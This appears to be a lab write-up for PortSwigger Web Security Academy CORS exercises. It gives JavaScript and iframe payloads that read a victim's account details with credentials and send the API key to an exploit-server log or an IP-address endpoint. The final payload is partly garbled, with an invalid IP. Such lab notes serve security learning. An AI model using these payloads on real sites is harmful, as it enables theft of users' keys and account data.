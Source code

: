 **Cross-origin resource sharing**


Submitted arbitrary header on Origin:
Response we get a 200 with a access-Control-Allow-Credentials header suggesting that it may support CORS. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/35caee02-7f84-4f97-aa4c-8d8c96bbf21b)





Will send us the victim api key

```
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
      location='/log?key='+this.responseText;
  };
</script>
```

**CORS vulnerability with trusted null origin**
Origin: null 
Gave us a CORS vuln
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3eba5d6e-0161-4be7-a350-52bfb5cebc66)


```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
Exploit:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
      location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

We got the user api in our access log

**CORS vulnerability with trusted insecure protocol***


Add a subdomain 
```
Origin: http://0af10055036af2e282c947d500680096.web-security-academy.net/product?productId=1
```




CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP. 

From <https://portswigger.net/web-security/cors/lab-breaking-https-attack> 

```
Access-Control-Allow-Origin: https://0af10055036af2e282c947d500680096.web-security-academy.net/product?productId=1
Access-Control-Allow-Origin: http://0af10055036af2e282c947d500680096.web-security-academy.net/product?productId=1
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bb51cc80-ab46-4b8b-a0c1-4a7dacca72fc)









Exploit: 
Exploit to retrieve API key

```
<script>
    document.location="http://stock.0ae10002044123ed8106ca53004f0040.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://172.18.1238.178/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```


